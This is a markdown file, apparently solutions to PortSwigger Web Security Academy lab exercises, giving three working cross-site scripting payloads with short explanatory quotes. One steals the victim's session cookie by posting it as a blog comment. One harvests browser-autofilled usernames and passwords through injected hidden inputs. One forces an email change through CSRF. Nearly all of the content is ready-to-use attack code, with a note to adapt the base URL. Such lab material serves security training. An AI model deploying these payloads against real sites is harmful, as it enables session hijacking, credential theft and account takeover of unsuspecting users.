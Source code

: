 # Cross-site scripting (exploits)

**Note:** Update the base URL https://ac741f481eba7f5d80a83ee7003a00d0.web-security-academy.net/ to match yours!

_Instead of using Burp Collaborator, you could adapt the attack to make the victim post their cookie within
a blog comment by exploiting the XSS to perform CSRF, although this would mean that the cookie value is
exposed publicly, and also discloses evidence that the attack was performed._

## Exploiting cross-site scripting to steal cookies

_Stealing cookies is a traditional way to exploit XSS. Most web applications use cookies for session
handling. You can exploit cross-site scripting vulnerabilities to send the victim's cookies to your
own domain, then manually inject the cookies into your browser and impersonate the victim._

```html
<script>
window.onload = function(e) {
    var csrf = document.getElementsByName("csrf")[0].value;
    console.log(csrf);
    fetch('https://ac6b1f801e21e609805034f000bf00b3.web-security-academy.net/post/comment', {
        method: 'POST',
        body: 'csrf=' + csrf + '&postId=1&comment=Cookie: ' + document.cookie + '&name=Jan&email=admin%40cmdnctrl.net&website='
    });
};
</script>
```

## Exploiting cross-site scripting to capture passwords

_These days, many users have password managers that auto-fill their passwords. You can take advantage
of this by creating a password input, reading out the auto-filled password, and sending it to your
own domain. This technique avoids most of the problems associated with stealing cookies, and can even
gain access to every other account where the victim has reused the same password._

```html
<form><input type="text" id="username" name="username"></form>
<form><input type="password" id="password" name="password"></form>
<script>
window.onload = function(e) {
    setTimeout(function() {
        var csrf = document.getElementsByName("csrf")[0].value;
        var username = document.getElementById("username").value;
        var passw = document.getElementById("password").value;
        console.log(csrf);
        fetch('https://ac741f481eba7f5d80a83ee7003a00d0.web-security-academy.net/post/comment', {
            method: 'POST',
            body: 'csrf=' + csrf + '&postId=3&comment=Username: ' + username + ', Password: ' + passw + '&name=Jan&email=admin%40cmdnctrl.net&website='
        });
    }, 2500);
};
</script>
```

## Exploiting cross-site scripting to perform CSRF

_Anything a legitimate user can do on a web site, you can probably do too with XSS. Depending on the site
you're targeting, you might be able to make a victim send a message, accept a friend request, commit a
backdoor to a source code repository, or transfer some Bitcoin._

```html
<script>
window.onload = function(e) {
    var csrf = document.getElementsByName("csrf")[0].value;
    console.log(csrf);
    fetch('https://ac8e1fe31e1017ee80982bb700310061.web-security-academy.net/email/change', {
        method: 'POST',
        body: 'csrf=' + csrf + '&email=john@wick.com'
    });
};
</script>
```


